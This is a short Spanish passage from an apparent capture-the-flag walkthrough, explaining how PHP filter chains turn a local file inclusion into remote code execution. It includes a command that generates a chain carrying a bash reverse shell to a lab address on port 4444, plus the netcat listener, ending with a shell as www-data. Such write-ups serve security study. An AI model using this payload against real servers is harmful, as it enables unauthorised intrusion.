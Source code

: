 ![](images/20-LFIActionHandler.png)

Con [PHP filters chain](https://github.com/synacktiv/php_filter_chain_generator) podemos pasar de un **LFI** a un **RCE** en PHP. Es una técnica que permite a un atacante crear una cadena de filtros que procesen y transformen datos de entrada para poder ejecutar comandos.
[Explicación](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)

Con `python3 php_filter_chain_generator.py --chain "<?php system('bash -c \"bash -i >& /dev/tcp/10.10.14.163/4444 0>&1\"')?>"` vamos a generar la cadena necesaria para obtener una **Reverse shell**:

Nos ponemos en escucha en el puerto **4444**

```bash
nc -nlvp 4444
listening on [any] 4444 ...
```

Enviamos la petición y obtenemos una **shell** como **www-data**.

![](images/20-revShellwwwdata.png)
